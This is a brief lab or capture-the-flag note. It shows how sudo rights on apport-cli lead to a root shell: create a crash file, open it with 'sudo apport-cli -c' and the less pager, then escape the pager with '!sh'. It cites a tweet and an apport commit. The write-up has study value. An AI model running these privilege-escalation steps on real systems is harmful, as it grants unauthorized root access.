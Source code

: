 ![[Pasted image 20240905195019.png]]

we can run `apport-cli` as sudo, found 2 valuable links to privesc using apport-cli
https://x.com/7h3h4ckv157/status/1728753489839628604
https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb

This helped to privesc
- cd to /var/crash
```bash
cd /var/crash
```
- created a file
```bash
touch xxx.crash
```
- collect problem information
```bash
sudo /usr/bin/apport-cli -c /var/crash/xxx.crash less
```
- choose 'V'
![[Pasted image 20240905195245.png]]
- Escape view with `!sh`
![[Pasted image 20240905195305.png]]
